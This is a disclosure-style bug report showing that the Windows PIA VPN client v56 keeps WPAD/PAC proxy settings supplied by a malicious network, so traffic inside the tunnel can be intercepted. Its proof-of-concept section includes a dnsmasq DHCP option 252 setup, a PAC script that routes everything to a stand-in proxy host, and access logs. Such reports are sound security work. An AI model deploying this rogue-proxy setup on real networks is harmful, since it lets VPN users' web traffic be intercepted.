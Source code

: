 ```yaml
---
layout: post
title: PIA Client - HTTP(S) Tunnelled Traffic Interception
category: bugreports
---
```


Private Internet Access(PIA) VPN users connecting to the PIA VPN service from an untrusted/malicious network are at risk of having all VPN tunnelled HTTP(S) traffic intercepted. The PIA client for Windows honours the Web Proxy Auto-Discovery (WPAD) settings configured by the local network the client is connecting from.

<!--more-->

*Patch notes resulting from this bug report be viewed at [https://www.privateinternetaccess.com/forum/discussion/21747/desktop-applications-release-v60](https://www.privateinternetaccess.com/forum/discussion/21747/desktop-applications-release-v60)*

<pre class="bugreport">
Description:        PIA Client HTTP(S) Tunnelled Traffic Interception
Versions Affected:  PIA Client v56 for Windows
Category:           Traffic Interception
Reporter:           Alex Chapman and Paul Stone of Context Information Security

Summary:
--------
Private Internet Access(PIA) VPN users connecting to the PIA VPN service from an untrusted/malicious network are at risk of having all VPN tunnelled HTTP(S) traffic intercepted. The PIA client for Windows honours the Web Proxy Auto-Discovery (WPAD) settings configured by the local network the client is connecting from. WPAD settings configure system and application HTTP proxies via Proxy Auto-Config (PAC) scripts. This allows a malicious network operator, such as a rogue access point, to proxy all VPN-tunnelled HTTP(S) requests for PIA VPN users connecting from their network.

Analysis:
---------
A malicious network can provide proxy settings over DHCP through DHCP option 252, this option provides a URL to a PAC script. When a Windows system receives DHCP option 252, the advertised PAC script is downloaded and the proxy settings are configured. When the client initialises a VPN connection to PIA this configuration remains.

Before VPN connection: client -&gt; malicious network -&gt; PAC proxy -&gt; internet
                                         ^
                                 DHCP 252 Proxy set

After VPN connection:  client -&gt; malicious network -&gt; VPN server -&gt; PAC proxy -&gt; internet
                                         ^
                                 DHCP 252 Proxy set

The "PAC proxy" can log all traffic, defeating the confidentiality provided by PIA, or modify traffic in transit to affect the integrity of the VPN traffic.

PIA Client v56 for Windows is based on OpenVPN version 2.2.2. This issue appears to be an underlying issue in OpenVPN (confirmed in OpenVPN version 2.3.10); we have reported this issue to the OpenVPN security team. However, as this issue was originally identified on the PIA Client we would like to inform London Trust Media of the details.

This issue has been confirmed on Windows 10 and Windows 7 (under default configuration) with PIA Client v56. WPAD/PAC is enabled by default on all modern desktop versions of Windows. It should be noted that disabling the default "Automatically detect settings" option in the Windows "Local Area Network (LAN) Settings" configuration mitigates this issue. However, clients with specifically configured PAC files (using the "Use automatic configuration script" option in the Windows "Local Area Network (LAN) Settings" configuration) may still be at risk.

Proof of Concept:
-----------------
Provided here is a Proof of Concept setup which will act as a network gateway, providing a PAC script via DHCP. The PAC script sets the default proxy to an HTTP proxy on the internet, in this case a fictitious proxy at proxy.example.com. When a Windows system attaches to this network, the advertised PAC file will be downloaded and the proxy settings configured. When the system connects to the PIA VPN service we can see that the proxy setting are still honoured.

The following dnsmasq configuration can be used to provide a PAC file to Windows hosts via WPAD DHCP:
    interface=eth0
    dhcp-authoritative
    dhcp-range=192.168.100.100,192.168.100.199,10m
    dhcp-option=3,192.168.100.1
    dhcp-option=6,192.168.100.1
    dhcp-option=252,http://proxy.example.com:80/proxy.pac

The dhcp-option=252 option specifies the URL from which Windows hosts will download the PAC script.

The following PAC script can be can be provided to proxy all HTTP(S) traffic through a Web Proxy hosted at proxy.example.com:3128:

  function FindProxyForURL(url, host){
    return "PROXY proxy.example.com:3128";
  }

Windows hosts which connect to a network as configured above will, by default, push all HTTP(S) traffic through the HTTP proxy at proxy.example.com:3128. After a PIA VPN connection is established the WPAD/PAC settings remain in use, forwarding all VPN tunnelled HTTP(S) traffic out of the PIA VPN endpoint through the configured HTTP proxy.

Below are logs which show HTTP connections from the above configured network to the WPAD/PAC configured proxy occurring both pre and post VPN connection.

Nginx access logs of Windows and Google Chrome fetching PAC script before connecting to the VPN:
    88.98.79.12 - - [08/Apr/2016:09:33:45 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "WinHttp-Autoproxy-Service/5.1"
    88.98.79.12 - - [08/Apr/2016:09:34:14 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"
    88.98.79.12 - - [08/Apr/2016:09:34:15 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"

Squid-cache access logs of proxy connections for www.contextis.com before connecting to the VPN:
    156 88.98.79.12 TCP_MISS/304 475 GET http://www.contextis.com/ - HIER_DIRECT/93.184.216.34 -

Nginx access logs of Windows and Google Chrome fetching PAC script after connecting to the PIA VPN:
    46.28.53.168 - - [08/Apr/2016:09:35:55 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "WinHttp-Autoproxy-Service/5.1"
    46.28.53.168 - - [08/Apr/2016:09:36:00 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"
    46.28.53.168 - - [08/Apr/2016:09:36:01 -0400] "GET /proxy.pac HTTP/1.1" 200 215 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.110 Safari/537.36"

Squid-cache access logs of proxy connections for www.contextis.com after connecting to the PIA VPN:
    151 46.28.53.168 TCP_MISS/304 453 GET http://www.contextis.com/ - HIER_DIRECT/93.184.216.34 -

NOTE: The IP address on the "after" logs have changed to that of the VPN end point.
</pre>
